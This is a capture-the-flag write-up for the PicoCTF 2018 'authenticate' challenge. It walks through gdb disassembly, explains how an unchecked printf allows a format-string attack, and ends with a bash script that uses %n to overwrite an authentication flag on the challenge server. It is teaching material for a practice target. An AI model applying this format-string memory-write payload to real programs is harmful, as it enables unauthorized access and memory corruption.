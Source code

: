 # Write-up for authenticate challenge
# PicoCTF_2018: authenticate

**Category:** Binary Exploitation
**Points:** 350

>Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 52918. Source.

> # Introduction
In this write-up we're gonna perform a format string attack. I shall show it with ASLR disabled.(See what ASLR is [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/got2learnlibc#aslr))

> # Vulnerability

As I said before, in this challenge Ι'm going to present to you a format string attack. And, what is that? You'll find soon.
First of all, let's disassemble our binary with gdb to see if we can find a vulnerability to exploit.

```asm
Dump of assembler code for function main:
=> 0x0804871d <+0>:	lea    ecx,[esp+0x4]
   0x08048721 <+4>:	and    esp,0xfffffff0
   0x08048724 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048727 <+10>:	push   ebp
   0x08048728 <+11>:	mov    ebp,esp
   0x0804872a <+13>:	push   ecx
   0x0804872b <+14>:	sub    esp,0x64
   0x0804872e <+17>:	mov    eax,ecx
   0x08048730 <+19>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048733 <+22>:	mov    DWORD PTR [ebp-0x5c],eax
   0x08048736 <+25>:	mov    eax,gs:0x14
   0x0804873c <+31>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804873f <+34>:	xor    eax,eax
   0x08048741 <+36>:	mov    eax,ds:0x804a044
   0x08048746 <+41>:	push   0x0
   0x08048748 <+43>:	push   0x2
   0x0804874a <+45>:	push   0x0
   0x0804874c <+47>:	push   eax
   0x0804874d <+48>:	call   0x8048520 <setvbuf@plt>
   0x08048752 <+53>:	add    esp,0x10
   0x08048755 <+56>:	call   0x80484e0 <getegid@plt>
   0x0804875a <+61>:	mov    DWORD PTR [ebp-0x50],eax
   0x0804875d <+64>:	sub    esp,0x4
   0x08048760 <+67>:	push   DWORD PTR [ebp-0x50]
   0x08048763 <+70>:	push   DWORD PTR [ebp-0x50]
   0x08048766 <+73>:	push   DWORD PTR [ebp-0x50]   
   0x08048769 <+76>:	call   0x8048540 <setresgid@plt>
   0x0804876e <+81>:	add    esp,0x10
   0x08048771 <+84>:	sub    esp,0xc
   0x08048774 <+87>:	push   0x8048968
   0x08048779 <+92>:	call   0x80484f0 <puts@plt>
   0x0804877e <+97>:	add    esp,0x10
   0x08048781 <+100>:	mov    eax,ds:0x804a040
   0x08048786 <+105>:	sub    esp,0x4
   0x08048789 <+108>:	push   eax
   0x0804878a <+109>:	push   0x40
   0x0804878c <+111>:	lea    eax,[ebp-0x4c]
   0x0804878f <+114>:	push   eax
   0x08048790 <+115>:	call   0x80484c0 <fgets@plt>
   0x08048795 <+120>:	add    esp,0x10
   0x08048798 <+123>:	sub    esp,0x8
   0x0804879b <+126>:	push   0x8048992
   0x080487a0 <+131>:	lea    eax,[ebp-0x4c]
   0x080487a3 <+134>:	push   eax
   0x080487a4 <+135>:	call   0x80484a0 <strstr@plt>
   0x080487a9 <+140>:	add    esp,0x10
   0x080487ac <+143>:	test   eax,eax
   0x080487ae <+145>:	je     0x80487ca <main+173>
   0x080487b0 <+147>:	sub    esp,0xc
   0x080487b3 <+150>:	push   0x8048995
   0x080487b8 <+155>:	call   0x80484f0 <puts@plt>
   0x080487bd <+160>:	add    esp,0x10
   0x080487c0 <+163>:	sub    esp,0xc
   0x080487c3 <+166>:	push   0x1
   0x080487c5 <+168>:	call   0x8048500 <exit@plt>
   0x080487ca <+173>:	sub    esp,0x8
   0x080487cd <+176>:	push   0x80489a6
   0x080487d2 <+181>:	lea    eax,[ebp-0x4c]
   0x080487d5 <+184>:	push   eax
   0x080487d6 <+185>:	call   0x80484a0 <strstr@plt>
   0x080487db <+190>:	add    esp,0x10
   0x080487de <+193>:	test   eax,eax
   0x080487e0 <+195>:	jne    0x8048801 <main+228>
   0x080487e2 <+197>:	sub    esp,0xc
   0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804880e <+241>:	xor    edx,DWORD PTR gs:0x14
   0x08048815 <+248>:	je     0x804881c <main+255>
   0x08048817 <+250>:	call   0x80484d0 <__stack_chk_fail@plt>
   0x0804881c <+255>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804881f <+258>:	leave  
   0x08048820 <+259>:	lea    esp,[ecx-0x4]
   0x08048823 <+262>:	ret    
End of assembler dump.
```

Hmm, at first sight we can't find something wrong in this code (there is not gets here, fgets is safe unfortunately).But, running the code we notice that **0x080487f9 <+220>:	call   0x80484b0 <printf@plt>** takes only one argument (our input specifically).

![Screenshot from 2019-10-11 21-26-50](https://user-images.githubusercontent.com/37578272/66675391-e93a1900-ec6d-11e9-9478-c202105cd70b.png)

So, if our input is hello_world (like above) everything is gonna be alright:
printf("hello_world") gives us hello_world.
Think about it for a minute before you see the solution.

If we parse as an argument something like "%d %d %d %d", what's going to happen?

![Screenshot from 2019-10-11 21-36-56](https://user-images.githubusercontent.com/37578272/66677578-9c0c7600-ec72-11e9-84a7-370eb777c5b6.png)
We see some random numbers. printf("%d %d %d %d") will search for addresses of 4 variables to print 4 integers.
However, we haven't parsed 2nd argument inside printf, hence the integers that it prints are some numbers in the stack. Same thing happens with "%x %x %x %x" and now we get some hex values:

![Screenshot from 2019-10-11 21-37-10](https://user-images.githubusercontent.com/37578272/66677581-9d3da300-ec72-11e9-9e37-d96a8c2dba01.png)


Where in the stack are those hex values? We'll find out in a minute. But first, we didn't say how we are going to get this flag. 
Let's examine read_flag function.

```asm
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:	push   ebp
   0x080486e5 <+1>:	mov    ebp,esp
   0x080486e7 <+3>:	sub    esp,0x8
   0x080486ea <+6>:	mov    eax,ds:0x804a04c
   0x080486ef <+11>:	test   eax,eax
   0x080486f1 <+13>:	jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:	sub    esp,0xc
   0x080486f6 <+18>:	push   0x8048934
   0x080486fb <+23>:	call   0x80484f0 <puts@plt>
   0x08048700 <+28>:	add    esp,0x10
   0x08048703 <+31>:	jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:	sub    esp,0xc
   0x08048708 <+36>:	push   0x8048958
   0x0804870d <+41>:	call   0x80484f0 <puts@plt>
   0x08048712 <+46>:	add    esp,0x10
   0x08048715 <+49>:	call   0x804865b <flag>
   0x0804871a <+54>:	nop
   0x0804871b <+55>:	leave  
   0x0804871c <+56>:	ret    
End of assembler dump.
```
In this instruction: **0x080486ea <+6>:	mov    eax,ds:0x804a04c**  we notice an address(data segment). 0x804a04c is an address of a global variable called authenticated. Authenticated is initialized to zero. We then see, **test eax, eax**.
So, if we  modify authenticated variable, test will enable ZF(zero flag) and  we will jump to the flag function, which would give us the flag.
How can we modify it?

We know the address of variable (This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us--ASLR is disabled--), and we know that printf is a vulnerable function right now.

Have you ever heard about %n inside printf? 
Man page of printf tells us about %n:
![Screenshot from 2019-10-11 21-11-58](https://user-images.githubusercontent.com/37578272/66677231-da556580-ec71-11e9-8dbe-57f6fb354c97.png)

Ohhh that's too serious. "%n" let us write things in memory. For example:

printf("Hello World%n", &var): writes to var the length of Hello World (=11). Here, we don't have second argument, if we could find where in the stack were those printed values we saw above, with fgets we could parse the address of authenticated and with %n we could write to it. 

Let's test as input this: AAAAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x.

![Screenshot from 2019-10-11 22-03-26](https://user-images.githubusercontent.com/37578272/66677735-fad1ef80-ec72-11e9-90ea-0d592a15c845.png)

We hitted the A's of our input and the first %x (0x782520-->ascii code of %x). So, if we change first 4 A's with variable's address and decrease %x's by 2 the last hex value will be the address.

```bash
python -c 'print "\x4c\xa0\x04\08" + "AAAA" + "%x "*11' | ./auth
```
![Screenshot from 2019-10-11 22-18-43](https://user-images.githubusercontent.com/37578272/66678683-1fc76200-ec75-11e9-988c-cf28b3053e14.png)

And it's true. Therefor, we change the last "%x" with a "%n". So in the address: 0x0804a04c %n will print length of \x4c\xa0\x04\08AAAA"%x "*10. 

Autenticated will be modified and we'll get the flag. Let's do it. 

Our exploit:
```bash
#!/bin/bash 
 
python -c 'print "\x4c\xa0\x04\x08" + "AAAA" +  "%x "*10 + "%n"' > payload 
 
cat payload | nc 2018shell.picoctf.com 52918 | tail -1  
```

Congrats, we got our flag. See you in the next challenge.




